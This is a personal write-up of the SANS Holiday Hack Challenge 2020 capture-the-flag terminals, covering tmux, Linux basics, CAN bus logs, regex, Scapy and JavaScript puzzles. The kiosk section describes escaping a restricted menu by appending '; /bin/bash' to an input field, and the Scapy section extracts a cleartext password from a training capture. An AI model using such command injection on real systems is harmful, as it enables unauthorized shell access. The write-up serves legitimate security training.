

KringleCon 3 - Holiday Hack Challenge 2020
Here’s my writeup for the 2020 SANS Holiday Hack challenge: ‘Zat You, Santa Claus? featuring KringleCon 3: French Hens.
This year, the event has moved to Santa’s newly renovated castle at the North Pole!
The goal is to solve the 11 objectives (well, 12 since the last objective has two parts) and save Christmas, of course. Along the way, terminals and mini-challenges can provide hints if you help the elf fix his troubles.
Terminals
Terminal Unescape Tmux (Pepper Minstix)
Description:
Can you help me?
I was playing with my birdie (she’s a Green Cheek!) in something called tmux, then I did something and it disappeared!
Can you help me find her? We were so attached!!
Hint:
Tmux Cheat Sheet From: Pepper Minstix There’s a handy tmux reference available at https://tmuxcheatsheet.com/!
Terminal Tips From: Jewel Loggins You can copy and paste in terminals with Ctrl-c and Ctrl-v or ⌘-c and ⌘-v.
Solution:
Use tmux list-sessions to list the active sessions:
elf@c3caac9458e6:~$ tmux list-sessions
0: 1 windows (created Wed Jan 6 10:37:19 2021) [80x24]
There’s only one session here, numbered 0, let’s attach to it:
elf@c3caac9458e6:~$ tmux attach-sessions -t 0
Terminal Kringle Kiosk (Shiny Upatree)
Description:
Welcome to our castle, we’re so glad to have you with us! Come and browse the kiosk; though our app’s a bit suspicious. Poke around, try running bash, please try to come discover, Need our devs who made our app pull/patch to help recover? Escape the menu by launching /bin/bash
Hint:
Command Injection From: Shinny Upatree There’s probably some kind of command injection vulnerability in the menu terminal.
Solution:
We are greeted by a menu:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Welcome to the North Pole!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
1. Map
2. Code of Conduct and Terms of Use
3. Directory
4. Print Name Badge
5. Exit
Please select an item from the menu by entering a single number.
Anything else might have ... unintended consequences.
Enter choice [1 - 5]
with some useful information, like the directory which lists people and where to find them:
Name: Floor: Room:
Ribb Bonbowford 1 Dining Room
Noel Boetie 1 Wrapping Room
Ginger Breddie 1 Castle Entry
Minty Candycane 1.5 Workshop
Angel Candysalt 1 Great Room
Tangle Coalbox 1 Speaker UNPreparedness
Bushy Evergreen 2 Talks Lobby
Holly Evergreen 1 Kitchen
Bubble Lightington 1 Courtyard
Jewel Loggins Front Lawn
Sugarplum Mary 1 Courtyard
Pepper Minstix Front Lawn
Bow Ninecandle 2 Talks Lobby
Morcel Nougat 2 Speaker UNPreparedness
Wunorse Openslae R NetWars Room
Sparkle Redberry 1 Castle Entry
Jingle Ringford NJTP
Piney Sappington 1 Castle Entry
Chimney Scissorsticks 2 Talks Lobby
Fitzy Shortstack 1 Kitchen
Alabaster Snowball R NetWars Room
Eve Snowshoes 3 Santa's Balcony
Shinny Upatree Front Lawn
Tinsel Upatree 3 Santa's Office
Or a map of the place:
__ _ --------------
|__)_ _ (_ | NetWars Room |
| \(_)(_)| | |
| * |
--------------
__ __ __ __
_)|_ _)|_ -------
/__| Tracks __)| |Balcony|
1 2 3 4 5 6 7 -------
------- ------------- |
|Speaker|--| Talks Lobby | --------
|Unprep | | | |Santa's |
------- ------ | |Office |
| | -- --
| *| | |
------ | ---
| * |
__ ------
/||_
|| __ __ --------
-------------------------- /| |_ |_ |Wrapping|
| Courtyard | |.__)| | Room |
-------------------------- --------
| | |
------ -------- ------ --- --------
|Dining|--|Kitchen |--|Great | |--|Workshop|
| | -------- | | | | |
| Room |--| * |--| Room | | | |
| | |Entryway| | | | | |
------ -------- ------ | | |
| | * |
---------- --------
|Front Lawn| NOTE: * denotes Santavator
----------
But how do we escape from that menu and run /bin/bash though? The hints points to a command injection, the easiest one on a Linux is to append a ; followed by a second command.
I tried various menu items followed by ; /bin/bash but none of them worked. Until! The Print Name Badge option! This one allows you to type your name and sure enough, this is where the command injection is ~~
Terminal Linux Primer (Sugarplum Mary)
The North Pole üç≠ Lollipop Maker: All the lollipops on this system have been stolen by munchkins. Capture munchkins by following instructions here and üç≠'s will appear in the green bar below. Run the command “hintme” to receive a hint.
Type "yes" to begin:
elf@85fc8cc8352c:~$ yes
Perform a directory listing of your home directory to find a munchkin and retrieve a lollipop!
elf@85fc8cc8352c:~$ ls
HELP munchkin_19315479765589239 workshop
elf@63d2d00d258e:~$ cat HELP
Type the command hintme if you are in need of help during your journey.
You can also use the key combinations ( Ctrl+B ↑ or ↓ ) to resize the terminals.
Now find the munchkin inside the munchkin.
elf@85fc8cc8352c:~$ cat munchkin_19315479765589239
munchkin_24187022596776786
Great, now remove the munchkin in your home directory.
elf@85fc8cc8352c:~$ rm munchkin_19315479765589239
Print the present working directory using a command.
elf@85fc8cc8352c:~$ pwd
/home/elf
Good job but it looks like another munchkin hid itself in you home directory. Find the hidden munchkin!
The -a option of ls prints hidden files.
elf@85fc8cc8352c:~$ ls -la
total 56
drwxr-xr-x 1 elf elf 4096 Dec 20 10:32 .
drwxr-xr-x 1 root root 4096 Dec 10 18:14 ..
-rw-r--r-- 1 elf elf 31 Dec 10 18:18 .bash_history
-rw-r--r-- 1 elf elf 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 elf elf 3105 Dec 5 00:00 .bashrc
-rw-r--r-- 1 elf elf 0 Dec 20 10:32 .munchkin_5074624024543078
-rw-r--r-- 1 elf elf 807 Apr 4 2018 .profile
-rw-r--r-- 1 elf elf 168 Dec 5 00:00 HELP
drwxr-xr-x 1 elf elf 20480 Dec 10 18:19 workshop
Excellent, now find the munchkin in your command history.
elf@85fc8cc8352c:~$ cat .bash_history
echo munchkin_9394554126440791
Find the munchkin in your environment variables.
env lists all environment variables, | grep munchkin will filter the ones that contain the word munchkin
elf@85fc8cc8352c:~$ env | grep munchkin
z_MUNCHKIN=munchkin_20249649541603754
Next, head into the workshop.
elf@85fc8cc8352c:~$ cd workshop
A munchkin is hiding in one of the workshop toolboxes. Use “grep” while ignoring case to find which toolbox the munchkin is in.
The -i option will ignore the case and -r . will search recursively in the current directory
elf@85fc8cc8352c:~/workshop$ grep -i munchkin -nr .
./toolbox_191.txt:1:mUnChKin.4056180441832623
A munchkin is blocking the lollipop_engine from starting. Run the lollipop_engine binary to retrieve this munchkin.
elf@85fc8cc8352c:~/workshop$ chmod +x lollipop_engine
elf@85fc8cc8352c:~/workshop$ ./lollipop_engine
munchkin.898906189498077
Munchkins have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
elf@85fc8cc8352c:~/workshop$ cd /home/elf/workshop/electrical
elf@85fc8cc8352c:~/workshop/electrical$ mv blown_fuse0 fuse0
Now, make a symbolic link (symlink) named fuse1 that points to fuse0
The ln command is for making links between files, -s is for a symbolic links.
elf@85fc8cc8352c:~/workshop/electrical$ ln -s fuse0 fuse1
Make a copy of fuse1 named fuse2.
elf@85fc8cc8352c:~/workshop/electrical$ cp fuse1 fuse2
We need to make sure munchkins don’t come back. Add the characters “MUNCHKIN_REPELLENT” into the file fuse2.
> is used to redirect the ouput of the echo command to a file named fuse2
elf@85fc8cc8352c:~/workshop/electrical$ echo "MUNCHKIN_REPELLENT" > fuse2
Find the munchkin somewhere in /opt/munchkin_den.
The -iname will match a filename while ignoring the case. * are used to match any filename that contains munchkin, regardless of what’s before or after
elf@85fc8cc8352c:/opt/munchkin_den$ find /opt/munchkin_den/ -iname "*munchkin*"
/opt/munchkin_den/
/opt/munchkin_den/apps/showcase/src/main/resources/mUnChKin.6253159819943018
Find the file somewhere in /opt/munchkin_den that is owned by the user munchkin.
elf@85fc8cc8352c:/opt/munchkin_den$ find /opt/munchkin_den/ -user "munchkin"
/opt/munchkin_den/apps/showcase/src/main/resources/template/ajaxErrorContainers/niKhCnUm_9528909612014411
Find the file created by munchkins that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/munchkin_den.
-size +108k matches a size greater than 108k, and -size -110k less than 110k
elf@79734ab2c6d1:~/workshop/electrical$ find /opt/munchkin_den -size +108k -size -110k
/opt/munchkin_den/plugins/portlet-mocks/src/test/java/org/apache/m_u_n_c_h_k_i_n_2579728047101724
List running processes to find another munchkin.
elf@85fc8cc8352c:~/workshop/electrical$ ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
init 1 0.0 0.0 65320 21100 pts/0 Ss+ 16:42 0:00 /usr/bin/python3 /usr/local/bin/tmuxp load ./mysession.yaml
elf 20701 1.2 0.0 84316 26240 pts/2 S+ 17:36 0:00 /usr/bin/python3 /14516_munchkin
elf 21290 0.0 0.0 36180 3332 pts/3 R+ 17:36 0:00 ps aux
The 14516_munchkin process is listening on a tcp port. Use a command to have the only listening port display to the screen.
elf@85fc8cc8352c:~/workshop/electrical$ netstat -plnt
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:54321 0.0.0.0:* LISTEN 20701/python3
The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last munchkin.
elf@85fc8cc8352c:~/workshop/electrical$ curl 0.0.0.0:54321
munchkin.73180338045875elf@79734ab2c6d1:~/workshop/electrical$
Your final task is to stop the 14516_munchkin process to collect the remaining lollipops.
elf@85fc8cc8352c:~/workshop/electrical$ ps aux | grep 14516_munchkin
elf 20701 0.1 0.0 160448 26900 pts/2 S+ 17:36 0:00 /usr/bin/python3 /14516_munchkin
elf 26570 0.0 0.0 13240 1064 pts/3 S+ 17:39 0:00 grep --color=auto 14516_munchkin
elf@79734ab2c6d1:~/workshop/electrical$ kill 20701
Santa Portrait
The secret corridor behind the secret portrait can be accessed from the door on the left side of the workshop room. This is unlocked after you solve objective 5 on the HID lock. Going through the painting will allow you to walk into the entry as Santa. To become yourself again, you need to walk backwards: ie go throught the painting from the entry.
33.6kbps (Fitzy Shortstack)
Description:
“Put it in the cloud,” they said… “It’ll be great,” they said… All the lights on the Christmas trees throughout the castle are controlled through a remote server. We can shuffle the colors of the lights by connecting via dial-up, but our only modem is broken! Fortunately, I speak dial-up. However, I can’t quite remember the handshake sequence. Maybe you can help me out? The phone number is 756-8347; you can use this blue phone.
Solution:

This mini-challenge is a tribute to the old days! To be able to make a phone call:
- Listen way too many time to the handshake sequence mp3
- Click the handset
- Compose the phone number: 7 5 6 8 3 4 7
- Click on the “spoken dial-up words” in the right order to reproduce the handshake sequence:
- baa DEE brrr
- aaah
- WEWEWwrwrrwrr
- beDURRdunditty
- SCHHRRHHRTHRTR
Terminal CAN-Bus Investigation (Wunorse Openslae)
Description:
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMMMMMMMMMMMMWX00OkxxddcddxxkOO0XWMMMMMMMMMMMMMMMMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMMMMMMWXOxoc:c.;cccccc.ccccc:.:c:ldxOXMMMMMMMMMMMMMMMMMMMMMMM MMMMMMMMMMMMMMMMMMMMXkoc’,ccccc:.:ccccc.ccccc.;cccc,'::cdOXMMMMMMMMMMMMMMMMMMM MMMMMMMMMMMMMMMMM0xc:cccc,':cccc::ccccccccccccccc:.;cccccc:lxXMMMMMMMMMMMMMMMM MMMMMMMMMMMMMMNkl,',:ccccc;;ccccccccccccccccccccc::cccccc:,',:lOWMMMMMMMMMMMMM MMMMMMMMMMMMNxccccc;';cccccccccccccccccccccccccccccccccc;':cccccckWMMMMMMMMMMM MMMMMMMMMMNdcccccc:..;cccccccccccccccccccccccccccccccccccccccccccc:kWMMMMMMMMM MMMMMMMMM0c,,,,:cccc;..;cccccccccccccccccccccccccccccccccccccc:,,,;:lKMMMMMMMM MMMMMMMWd:cccc;:cccccc;..,cccccccccccccccccccccccccccccccccccc;:cccccckMMMMMMM MMMMMMNlcccccccccccccccc:..,:ccccccccccccccccccccccccccccccccccccccccc:oWMMMMM MMMMMNc,,,,,:ccccccccccccc:..':cccccccccccccccccccccccccccccccccc:,,,,,;oWMMMM MMMMWoccccc::ccccccccccccccc:'.':cccccccccccccccccccccccccccccccc::ccccccxMMMM MMMMkccccccccccccccccccccccccc:'..:cccccccccccccccccccccccccccccccccccccc:0MMM MMMN::cccccccccccccccccccccccccc:'..:cccccccccccccccccccccccccccccccccccc:cWMM MMMk,,,,,:cccccccccccccccccccccccc:,..;ccccccccccccccccccccccccccccc:,,,,,;0MM MMMlccccccccccccccccccccccccccccccccc,.;cccccccccccccccccccccccccccccccccccdMM MMW:ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccclMM MMWOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO0MM MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
Welcome to the CAN bus terminal challenge! In your home folder, there’s a CAN bus capture from Santa’s sleigh. Some of the data has been cleaned up, so don’t worry - it isn’t too noisy. What you will see is a record of the engine idling up and down. Also in the data are a LOCK signal, an UNLOCK signal, and one more LOCK. Can you find the UNLOCK? We’d like to encode another key mechanism. Find the decimal portion of the timestamp of the UNLOCK code in candump.log and submit it to ./runtoanswer! (e.g., if the timestamp is 123456.112233, please submit 112233)
Hint:
From: Wunorse Openslae Chris Elgee is talking about how CAN traffic works right now! You can hide lines you don’t want to see with commands like
cat file.txt | grep -v badstuff
Solution:
elf@7f717cc6c0a7:~$ ls
candump.log runtoanswer
elf@7f717cc6c0a7:~$ head candump.log
(1608926660.800530) vcan0 244#0000000116
(1608926660.812774) vcan0 244#00000001D3
(1608926660.826327) vcan0 244#00000001A6
(1608926660.839338) vcan0 244#00000001A3
(1608926660.852786) vcan0 244#00000001B4
(1608926660.866754) vcan0 244#000000018E
(1608926660.879825) vcan0 244#000000015F
(1608926660.892934) vcan0 244#0000000103
(1608926660.904816) vcan0 244#0000000181
(1608926660.920799) vcan0 244#000000015F
We have a candump log, let’s start by filtering the unique CAN IDs. The command below takes the content of candump.log, then split on the space character and select the 3 column. In that third column, we keep everything before the #. Finally, we order them with sort so that duplicates are grouped and uniq can remove them.
elf@788d42b87ff2:~$ cat candump.log | cut -d' ' -f3 | cut -d'#' -f1 | sort | uniq
188
19B
244
There are 3 unique IDs:
- 244 is probably the engine, as it’s the most noisy and sending updates all the time
- 188 is just sending empty data
- 19B looks like it could be our lock, it only sends 2 types of messages:
000000000000and00000F000000.
elf@788d42b87ff2:~$ cat candump.log | grep "vcan0 19B"
(1608926664.626448) vcan0 19B#000000000000
(1608926671.122520) vcan0 19B#00000F000000
(1608926674.092148) vcan0 19B#000000000000
Furthemore, the 3 packets sent by ID 19B match the LOCK/UNLOCK/LOCK from the challenge description, so the UNLOCK packet is the one sent at 1608926671.122520.
elf@788d42b87ff2:~$ ./runtoanswer
There are two LOCK codes and one UNLOCK code in the log. What is the decimal portion of t
he UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520
Checking....
Your answer is correct!
SORT-O-MATIC (Minty Candycane)
Description:
About The SORT-O-MATIC is responsible for separating properly wrapped presents from disfunctional misfit presents. Properly wrapped presents are put into Santa’s gift bag while the misfit toys are dropped into a box with a portal to the Island of Misfit Toys.
The SORT-O-MATIC’s configuration works using regular expressions. When all eight regular expressions match the desired values the SORT-O-MATIC will properly sort presents.
Troubleshooting If the SORT-O-MATIC is NOT sorting presents at 100% accuracy, you will need to add the desired regex in the invalid (red-highlighted) inputs and then click the corresponding toggle switch. If you provide the correct regular expression and toggle the switch, the input will turn green and the progress bar will grow. You must reach 100% accuracy in order to fix the SORT-O-MATIC.
Click on the description above each input to display a message with more details about the desired regular expression.
Click the HELP button on the SORT-O-MATIC to view this help manual again.
Hint:
JavaScript Regex Cheat Sheet From: Minty Candycane Handy quick reference for JS regular expression construction: https://www.debuggex.com/cheatsheet/regex/javascript
Regex Practice From: Minty Candycane Here’s a place to try out your JS Regex expressions: https://regex101.com/
For this challenge, I used https://regex101.com/ a lot to debug my regexp with test data.
- Create a Regex That Matches All Digits Create a regular expression that will only match any string containing at least one digit.
\d matches a digit, .* matches any character repeated any number of time
.*\d.*
- Create a Regex That Matches 3 or More Alpha Characters Ignoring Case Create a regular expression that will only match only alpha characters A-Z of at least 3 characters in length or greater while ignoring case.
[a-zA-Z] will match any character, regardless of the case and
{3,} will match if there are at least 3 of them.
[a-zA-Z]{3,}
- Create a Regex That Matches Two Consecutive Lowercase a-z or numeric characters. Create a regular expression that will only match at least two consecutive lowercase a-z or numeric characters.
[a-z0-9] matches a lowercase letter or a number
[a-z0-9][a-z0-9]
- Any two characters that are not uppercase A-L or 1-5 Create a regular expression that will only match any two characters that are NOT uppercase A through L and NOT numbers 1 through 5.
^ is a negative condition, so ^A-L1-5 will exclude characters any lowercase characters from A to L and any number from 1 to 5. And {2,} ensures there are at least 2 characters matched.
([^A-L1-5]){2,}
- Create a Regex To Match a String of 3 Characters in Length or More Composed of ONLY Digits Create a regular expression that only matches if the entire string is composed of entirely digits and is at least 3 characters in length.
^ means the beginning of the line, \d{3,} matches at least 3 digits and $ is the end of the line.
^\d{3,}$
- Create A Regex To Match Multiple Hour:Minute:Second Time Formats Only Create a regular expression that only matches if the entire string is a valid Hour, Minute and Seconds time format similar to the following:
12:24:53 1:05:24 23:02:43 08:04:10
However, the following would be invalid:
25:30:86 A1:E4:B5 B2:13:4A 32:24:53 08:74:53 12:5:24
Use anchors or boundary markers to avoid matching other surrounding strings.
A first group to match the hours: ([0,1,2]?\d)
- an optional first digit with the value
0,1or2 - any digit
A second group with matches twice for the minutes and seconds: (:[0-5][0-9]){2}:
- a double colon
: - a first digit between 0 and 5
- a second digit between 0 and 9
Putting it together with ^ for the start of line and $ for the end of line:
^([0,1,2]?\d)(:[0-5][0-9]){2}$
- Create A Regular Expression That Matches The MAC Address Format Only While Ignoring Case Create a regular expression that only matches if the entire string is a MAC address. For example:
00:0a:95:9d:68:16 76:A4:5A:D2:69:93 B8:13:13:D1:18:EC 95:ce:00:4a:22:df
However, the following would be examples of invalid MAC Addresses: 97:z2:gf:c4:02:c2 de:140:130:69:7_-bd C0:HH:EE:50:B7:C3
Use anchors or boundary markers to avoid matching other surrounding strings.
we build a first group to match 2 hex character followed by :, that group will repeat 5 times:
[A-Fa-f-0-9]{2}: 2 hex characters:double-colon symbol
And a second group to match just 2 hex characters:
[A-Fa-f-0-9]{2}: 2 hex characters
Adding ^ for beginning of line and $ for end of line:
^([A-Fa-f-0-9]{2}:){5}[A-Fa-f-0-9]{2}$
- Create A Regex That Matches Multiple Day, Month, and Year Date Formats Only Create a regular expression that only matches one of the three following day, month, and four digit year formats:
10/01/1978 01.10.1987 14-12-1991
However, the following values would be invalid formats: 05/25/89 12-32-1989 01.1.1989 1/1/1
Use anchors or boundary markers to avoid matching other surrounding strings.
We build a first group that will match the day and the month, as they have the same format:
[1,0]{1}: one digit that is either 1 or 0\d: any digit[\/.-]{1}: one punctuation sign like/,.or-
Putting it together: ([1,0]{1}\d[\/.-]{1}){2} . For the year part,
- a
1 - followed by any 3 digits
Assembling the two groups, and adding ^ for beginning of the line and $ for the end of line gives:
^([1,0]{1}\d[\/.-]{1}){2}1\d{3}$
Terminal Scapy Prepper (Alabaster Snowball)
Description:
>>> task.get()
Welcome to the "Present Packet Prepper" interface! The North Pole could use your help prep
aring present packets for shipment.
Start by running the task.submit() function passing in a string argument of 'start'.
Type task.help() for help on this question.
>>> task.submit('start')
Correct! adding a () to a function or class will execute it. Ex - FunctionExecuted()
Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.
The function for sending packets at layer 3 can be found in the documentation https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html#scapy.sendrecv.send
>>> task.submit(send)
Correct! The "send" scapy class will send a crafted scapy packet out of a network interface.
Submit the class object of the scapy module that sniffs network packets and returns those packets in a list.
On the same documentation page, we can also found the sniff function https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html#scapy.sendrecv.sniff.
>>> task.submit(sniff)
Correct! the "sniff" scapy class will sniff network traffic and return these packets in a
list.
Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named “pkt”:
- pkt = sr1(IP(dst=“127.0.0.1”)/TCP(dport=20))
- pkt = sniff(IP(dst=“127.0.0.1”)/TCP(dport=20))
- pkt = sendp(IP(dst=“127.0.0.1”)/TCP(dport=20))
Answer 2 will sniff a packet and not send anything. Answer 3 will send a packet but not care about the answer. Choice 1 is the right one, sr means send/receive.
>>> task.submit(1)
Correct! sr1 will send a packet, then immediately sniff for a response packet.
Submit the class object of the scapy module that can read pcap or pcapng files and return a list of packets.
Browsing the documentation, we found this section https://scapy.readthedocs.io/en/latest/usage.html?highlight=read%20pcap#reading-pcap-files.
>>> task.submit(rdpcap)
Correct! the "rdpcap" scapy class can read pcap files.
The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices below that correctly prints a summary of UDP_PACKETS:
- UDP_PACKETS.print()
- UDP_PACKETS.show()
- UDP_PACKETS.list()
.list() and .print() won’t work on a list of packets, so the only possible answer is .show()
>>> task.submit(2)
Correct! .show() can be used on lists of packets AND on an individual packet.
Submit only the first packet found in UDP_PACKETS.
>>> task.submit(UDP_PACKETS[0])
Correct! Scapy packet lists work just like regular python lists so packets can be accessed
by their position in the list starting at offset 0.
Submit only the entire TCP layer of the second packet in TCP_PACKETS.
>>> task.submit(TCP_PACKETS[1]["TCP"])
Correct! Most of the major fields like Ether, IP, TCP, UDP, ICMP, DNS, DNSQR, DNSRR, Raw,
etc... can be accessed this way. Ex - pkt[IP][TCP]
Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet
>>> UDP_PACKETS[0]["IP"].src = "127.0.0.1"
>>> task.submit(UDP_PACKETS[0])
Correct! You can change ALL scapy packet attributes using this method.
Submit the password “task.submit(‘elf_password’)” of the user alabaster as found in the packet list TCP_PACKETS.
We use a loop to print the Raw layer of each packet (if it has one)
>>> for p in TCP_PACKETS:
... if Raw in p:
... p[Raw].show()
###[ Raw ]###
load = '220 North Pole FTP Server\r\n'
###[ Raw ]###
load = 'USER alabaster\r'
###[ Raw ]###
load = '331 Password required for alabaster.\r'
###[ Raw ]###
load = 'PASS echo\r\n'
###[ Raw ]###
load = '230 User alabaster logged in.\r'
>>> task.submit('echo')
Correct! Here is some really nice list comprehension that will grab all the raw payloads f
rom tcp packets:
[pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]
The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list.
>>> ICMP_PACKETS[1][ICMP].chksum
19524
>>> task.submit(ICMP_PACKETS[1][ICMP].chksum)
Correct! You can access the ICMP chksum value from the second packet using ICMP_PACKETS[1]
[ICMP].chksum
Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named “pkt”
- pkt = Ether(src=‘127.0.0.1’)/ICMP(type=“echo-request”)
- pkt = IP(src=‘127.0.0.1’)/ICMP(type=“echo-reply”)
- pkt = IP(dst=‘127.0.0.1’)/ICMP(type=“echo-request”)
Answer 1 is wrong because it doesn’t have an IP layer and answer 2 is an echo reply packet, not an echo request.
>>> task.submit(3)
Correct! Once you assign the packet to a variable named "pkt" you can then use that variable to send or manipulate your created packet.
Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127 (all other packet attributes can be unspecified)
>>> pkt = IP(dst="127.127.127.127") / UDP(dport=5000)
>>> task.submit(pkt)
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
task.submit(pkt)
Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query with a qname of “elveslove.santa”. (all other packet attributes can be unspecified)
>>> pkt = IP(dst="127.2.3.4") / UDP(dport=53) / DNSQR(qname="elveslove.santa")
>>> task.submit(pkt)
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))
task.submit(pkt)
The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.
We first print the ARP request and the ARP response to see what’s wrong with it.
>>> ARP_PACKETS.show()
0000 Ether / ARP who has 192.168.0.1 says 192.168.0.114
0001 Ether / ARP None 192.168.0.1 > 192.168.0.114 / Padding
>>> ARP_PACKETS[0].show()
###[ Ethernet ]###
dst = ff:ff:ff:ff:ff:ff
src = 00:16:ce:6e:8b:24
type = ARP
###[ ARP ]###
hwtype = 0x1
ptype = IPv4
hwlen = 6
plen = 4
op = who-has
hwsrc = 00:16:ce:6e:8b:24
psrc = 192.168.0.114
hwdst = 00:00:00:00:00:00
pdst = 192.168.0.1
>>> ARP_PACKETS[1].show()
###[ Ethernet ]###
dst = 00:16:ce:6e:8b:24
src = 00:13:46:0b:22:ba
type = ARP
###[ ARP ]###
hwtype = 0x1
ptype = IPv4
hwlen = 6
plen = 4
op = None
hwsrc = ff:ff:ff:ff:ff:ff
psrc = 192.168.0.1
hwdst = ff:ff:ff:ff:ff:ff
pdst = 192.168.0.114
###[ Padding ]###
load = '\xc0\xa8\x00r'
The 3 incorrect fields are:
- the
opfield is None, it should beis-at - hwsrc should not be ff:ff:ff:ff:ff:ff, but
00:13:46:0b:22:ba - hwdst should not be ff:ff:ff:ff:ff:ff but
00:16:ce:6e:8b:24
Fixing it:
>>> ARP_PACKETS[1][ARP].op = "is-at"
>>> ARP_PACKETS[1][ARP].hwdst = ARP_PACKETS[1][Ether].dst
>>> ARP_PACKETS[1][ARP].hwsrc = ARP_PACKETS[1][Ether].src
>>> task.submit(ARP_PACKETS)
Great, you prepared all the present packets!
Congratulations, all pretty present packets properly prepared for processing!
Arcade The Elf c0de (Ribb Bonbowford)
Hint:
From: Ribb Bonbowford Want to learn a useful language? JavaScript is a great place to start! You can also test out your code using a JavaScript playground.
JavaScript Loops From: Ribb Bonbowford Did you try the JavaScript primer? There’s a great section on looping.
Filtering Items From: Ribb Bonbowford There’s got to be a way to filter for specific typeof items in an array. Maybe the typeof operator could also be useful?
Getting a Key Name From: Ribb Bonbowford In JavaScript you can enumerate an object’s keys using keys, and filter the array using filter.
Compressing JS From: Ribb Bonbowford There are lots of ways to make your code shorter, but the number of elf commands is key.
Adding to Arrays From: Ribb Bonbowford
var array = [2, 3, 4]; array.push(1)doesn’t do QUITE what was intended…
Level 1 - The Elf C0de
Info:Program the elf to the end goal in no more than 2 lines of code and no more than 2 elf commands.
elf.moveLeft(10)
elf.moveUp(10)
Level 2 - Trigger The Yeeter
Move to the lever, elf.get_lever(0), and manipulate the resulting data however it asks, and send the answer to elf.pull_lever(answer). The yeeter should release, and you can move freely.
Info:Program the elf to the end goal in no more than 5 lines of code and no more than 5 elf command/function execution statements in your code.
elf.moveTo(lever[0])
elf.pull_lever(elf.get_lever(0) + 2)
elf.moveLeft(4)
elf.moveUp(10)
Level 3 - Move To Loopiness
Pick up all of the lollipops!
Info:Program the elf to the end goal in no more than 4 lines of code and no more than 4 elf command/function execution statements in your code.
for (var i = 0; i < 3; i++) {
elf.moveTo(lollipop[i])
}
elf.moveUp(1)
Level 4 - Up Down Loopiness
Note: Using another for loop could reduce how many elf function statements are used.
Hint: Using elf.moveLeft(40) will move your elf as far as possible before hitting an obstacle or the end of the screen. Use however high a number you think you need!
Info:Program the elf to the end goal in no more than 7 lines of code and no more than 6 elf command/function execution statements in your code.
for (var i = 0; i < 3; i++) {
elf.moveLeft(3)
elf.moveUp(15)
elf.moveLeft(2)
elf.moveDown(15)
}
Level 5 - Move To Madness
Hint Experiment with the elf.moveTo() function. You might be able to get two-in-one if you move to munchkin[0]. Click on the munchkin in the CURRENT LEVEL OBJECTS window to see the kind of answer the munchkin is looking for in this challenge.
Info:Program the elf to the end goal in no more than 10 lines of code and no more than 5 elf command/function execution statements in your code..
var list = elf.ask_munch(0)
elf.moveTo(lollipop[1])
elf.moveTo(lollipop[0])
elf.tell_munch(list.filter(item => Number.isInteger(item)))
elf.moveUp(2)
Level 6 - Two Paths, Your Choice
Note There are two paths here for you to choose. Choosing the lever may take more steps but might be easier to solve.
